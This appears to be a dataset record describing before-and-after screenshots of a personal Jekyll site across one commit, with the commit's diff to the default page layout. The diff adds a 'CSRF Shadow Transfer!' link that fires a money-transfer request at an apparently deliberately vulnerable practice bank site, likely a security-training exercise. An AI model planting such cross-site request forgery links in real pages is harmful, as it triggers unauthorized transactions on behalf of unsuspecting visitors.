

Before and after one commit to syn-ack-zack/syn-ack-zack.github.io, a Jekyll site: the page built from index.md, in a window 1280 px wide and 900 px high, scrolled down 2565 px, cut to the strip 485-900 px from the top of the window. Shown: the whole strip, without its empty margins (307-971 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 3425 px from its top, so only the background shows below that.

Commit message:
Update default.html

```diff
--- a/_layouts/default.html
+++ b/_layouts/default.html
@@ -29,6 +29,7 @@
     <div class="container">
       <section id="main_content">
         {{ content }}
+        <a href="https://13-52-241-170-bank.vulnerablesites.net/ShadowBank/doTransfer.action?destId=83247645&amount=9999999">CSRF Shadow Transfer!</a>
       </section>
     </div>
 
```
